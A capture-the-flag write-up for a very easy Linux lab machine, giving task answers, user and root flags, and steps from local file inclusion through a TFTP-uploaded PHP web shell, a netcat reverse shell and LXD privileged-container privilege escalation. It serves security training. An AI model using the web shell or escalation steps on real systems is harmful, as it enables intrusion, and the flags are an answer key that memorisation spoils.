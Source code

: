 ### Included

**OS:** Linux<br>
**Difficulty:** Very Easy<br>
**Collection:** [Starting Point Tier 2](/StartingPoint/Tier2/)<br><br>
**Tags:** PHP, Custom Applications, Protocols, Apache, TFTP, LXD, Reconnaissance, Local File Inclusion, Clear Text Credentials, Arbitrary File Upload<br>



---

#### Task 1
**What service is running on the target machine over UDP?**
> tftp

![Nmap UDP Scan](nmap_udp.png)



---

#### Task 2
**What class of vulnerability is the webpage that is hosted on port 80 vulnerable to?**
> Local File Inclusion

We visit the target website and see that the webpage has a `file` query parameter. We confirm that target website has a local file inclusion vulnerability by loading the `/etc/passwd/` file:

![Local File Inclusion Vulnerability](lfi_test.png)



---

#### Task 3
**What is the default system folder that TFTP uses to store files?**
> /var/lib/tftpboot/

We confirm that the target machine is storing TFTP files in `/var/lib/tftpboot/` by checking the `TFTP_DIRECTORY` variable of the `/etc/default/tftpd-hpa` file:

![TFTP Directory](tftp_dir.png)



---

#### Task 4
**Which interesting file is located in the web server folder and can be used for Lateral Movement?**
> .htpasswd

We want to view all the files in the web server folder `/var/www/html`. We make a `shell.php` file that allows us to execute system commands:

```php
# shell.php
<?php system($_GET["cmd"]); ?>
```

Next we upload `shell.php` to the TFTP Server:

![Uploading shell.php](upload_shell.png)

Next we visit use `curl` to execute the command `ls -a /var/www/html` on the target machine:

![Web Server Files](web_files.png)

We notice there is an `.htpasswd` file. We use `curl` to execute the command `cat /var/www/html/.htpasswd` on the target machine to get Apache HTTP Server user credentials:

![Viewing .htpasswd File](htpasswd.png)



---

#### Task 5
**What is the group that user Mike is a part of and can be exploited for Privilege Escalation?**
> lxd

We make reverse shell as the Mike user. We start a netcat listener on port `4242` of our own machine:

```bash
nc -nlvp 4242
```

In another terminal, we make a php reverse_shell and upload it to the TFTP Server. We start the shell using the `curl` command:

![Reverse Shell](reverse_shell.png)

Now we have a reverse shell as the `www-user` in our first terminal. We make the shell fully interactive and then login as the `mike` user using the credentials from the `.htpasswd` file:

![Shell as Mike](mike_shell.png)

We use the `id` command and find that mike is in the `lxd` group:

![Mike's Group](group.png)



---

#### Task 6
**When using an image to exploit a system via containers, we look for a very small distribution. Our favorite for this task is named after mountains. What is that distribution name?**
> alpine

We download and build the exploit on our own machine: 

```bash
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
sudo ./build-alpine
```

Then we upload the `alpine-v3.13-x86_64-20210218_0139.tar.gz` file to the TFTP Server. Now in our reverse shell, we import the image we uploaded to the server as `myimage`:

![Importing Image](import_image.png)



---

#### Task 7
**What flag do we set to the container so that it has root privileges on the host system?**
> security.privileged=true

Next we create and start a container `mycontainer` from our uploaded image `myimage`. We add the `security.privileged=true` flag to give us root privileges in our container:

![Creating and Starting Container](start_container.png)

Now we have a root shell:

![Root Shell](root.png)



---

#### Task 8
**If the root filesystem is mounted at /mnt in the container, where can the root flag be found on the container after the host system is mounted?**
> /mnt/root/

![Mounted Root Filesystem](mounted_filesystem.png)



---

#### User Flag
> a56ef91d70cfbf2cdb8f454c006935a1

![User Flag](user_flag.png)



#### Root Flag
> c693d9c7499d9f572ee375d4c14c7bcf

![Root Flag](root_flag.png)

---